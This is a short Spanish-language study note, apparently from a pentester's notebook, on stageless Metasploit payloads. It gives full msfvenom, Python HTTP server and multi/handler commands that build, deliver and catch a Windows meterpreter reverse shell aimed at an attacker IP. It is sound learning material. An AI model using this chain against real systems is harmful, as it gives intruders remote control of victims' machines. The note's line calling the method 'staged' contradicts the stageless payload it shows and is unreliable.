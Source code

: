 #payload #explotacion 

-------
Los de este tipo envían el payload de forma directa, mientras que los de tipo [[Staged]] no lo hacen.

- Es mucho más grande
- Código directo y necesario
- Más rápido de enviar

Una forma de crear payloads **staged** es de la siguiente manera, usando el [[MsfVenom]] con el siguiente código de ejecución:

```bash
msfvenom -p windows/meterpreter_reverse_tcp --platform windows -a x64 LHOST=192.168.20.16 LPORT=4646 -f exe -o reverse.exe
```

Posteriormente, una vez ganado el acceso en la máquina víctima, con el siguiente comando abre un servidor en Python3 y descarga el virus en la máquina víctima:

```bash
python3 -m http.server 80 
```

Una vez descargado, mediante Metasploit accede a la consola operativa del payload con los siguientes comandos:


```bash
msfconsole 
```

```bash 
msfdb run 
```

Luego, una vez estando en la consola, realiza lo siguiente:

```metaexploit 
use exploit/multi/handler
```

Seteamos el payload que vamos a utilizar:

```metaexploit
set payload windows/x64/meterpreter_reverse_tcp 
```

Seteamos nuestra IP y puerto de atacante:

```metaexploit
set LHOST 192.168.20.16
```

```metaexploit
set LPORT 4646
```

Y posteriormente, simplemente lo ejecutamos con el comando **run**.
